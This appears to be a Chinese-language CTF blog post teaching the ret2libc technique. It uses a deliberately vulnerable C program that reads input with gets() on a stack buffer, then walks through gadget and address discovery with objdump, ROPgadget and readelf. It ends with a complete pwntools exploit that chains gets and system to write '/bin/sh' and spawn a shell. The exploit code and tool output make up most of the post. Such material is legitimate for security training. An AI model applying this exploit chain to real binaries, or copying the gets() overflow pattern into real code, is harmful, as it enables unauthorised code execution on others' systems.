 ```yaml
---
title: ret2libc攻击技术示例-仅有system()情况下输入"/bin/sh"完成函数调用
time: 2017-08-03
tags: [CTF, pwn, stackoverflow]
layout: post
categories: posts
---
```


# 情景描述

当程序中并没有直接的`"/bin/sh"`字符串时，我们该如何通过ret2libc技术实现`system("/bin/sh")`的执行呢？这时我们就需要借助`gets` `read`之类的函数，读入我们输入的`"/bin/sh"`到缓冲区后，然后依照ret2libc1的套路一样，将`"/bin/sh"`的地址，也就是缓冲区的地址，模拟传入实现函数调用

# 示例代码

``` c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char buf2[100];

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));

    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("no_shell_QQ");
}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf1[100];

    printf("Something surprise here, but I don't think it will work.\n");
    printf("What do you think ?");
    gets(buf1);

    return 0;
}
```

本节示例的漏洞程序可以在此处下载： [ret2libc2](/files/ret2libc2)

程序依旧只开启了NX保护
``` bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

# 漏洞分析

利用`gets()`函数，我们可以将`"/bin/sh"`写入到buf2中(buf1也可以)，但是这时需要注意，我们要合理设置`gets()`函数执行完后的返回地址，我们要保证函数执行完后依旧返回到rop链的下部分继续执行，因此我们需要一个gadget作为`gets()`返回地址。

这样，当`gets()`读取"/bin/sh"写入到buf中后，将返回到一个gadget上，gadget继续ret可以返回到下一部分，而这部分我们构造为`system("/bin/sh")`，那么这样的rop chain构造合理，我们就可以成功获取一个shell

``` bash
➜  ret2libc2 objdump -dj .plt ret2libc2 | grep -E "gets|system"
08048460 <gets@plt>:
08048490 <system@plt>:
➜  ret2libc2 ROPgadget --binary ret2libc2 --only 'pop|ret'
Gadgets information
============================================================
......
0x0804843d : pop ebx ; ret
......

Unique gadgets found: 7
➜  ret2libc2 readelf -s ret2libc2 | grep buf2
    59: 0804a080   100 OBJECT  GLOBAL DEFAULT   25 buf2
```

# 攻击代码

``` python
from pwn import *

pop_ebp_ret = 0x0804843d
plt_gets = 0x08048460
plt_system = 0x08048490
buf2 = 0x0804a080

payload = 'A' * 112
payload += p32(plt_gets) + p32(pop_ebp_ret) + p32(buf2)
payload += p32(plt_system) + p32(0xdeadbeef) + p32(buf2)

io = process('ret2libc2')
io.sendline(payload)
io.sendline("/bin/sh")
io.interactive()
```
